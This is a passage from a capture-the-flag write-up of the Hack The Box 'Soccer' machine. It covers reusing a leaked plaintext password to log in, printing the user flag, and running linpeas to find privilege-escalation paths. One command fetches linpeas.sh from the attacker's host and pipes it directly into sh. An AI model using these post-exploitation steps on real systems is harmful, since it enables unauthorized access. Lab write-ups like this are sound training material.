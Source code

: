 The user is player and the password is in plaintext.

## Ready Player One

That password works for the player user on the box with `su`:

```bash
www-data@soccer:/etc/nginx/sites-enabled$ su player -
Password:

player@soccer:/etc/nginx/sites-enabled$
```

And SSH as well, which is convenient:

```bash
$ sshpass -p PlayerOftheMatch2022 ssh player@soccer.htb                                                         130 ⨯

...[snip]...
player@soccer:~$
```

This allows me to grab the first flag:

```bash
player@soccer:~$ cat user.txt

22003113ce91c12b9aea04640079cb62
```

## I’am root

When I get access to a Linux machine I always like to test some low hanging fruit manually first. Like `sudo`, but it’s not configured for the player use

```bash
player@soccer:~$ sudo -l
[sudo] password for player:
Sorry, user player may not run sudo on localhost.
```

Time to run `linpeas.sh`. A hack the box VM doesn’t have access to the internet. So I first download `linpeas.sh` to my local machine in `/tmp` with `curl -LO https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh` and then spin up a python HTTP server `python3 -m http.server`. This allows me to now download linpeas onto the box and immediately pipe it to `sh`:

```bash
player@soccer:~$ curl http://10.10.14.19:8000/linpeas.sh | sh

...[snip]...
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 42K Nov 17  2022 /usr/local/bin/doas
-rwsr-xr-x 1 root root 140K Nov 28  2022 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 463K Mar 30  2022 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 39K Feb  7  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 55K Feb  7  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
...[snip]...
```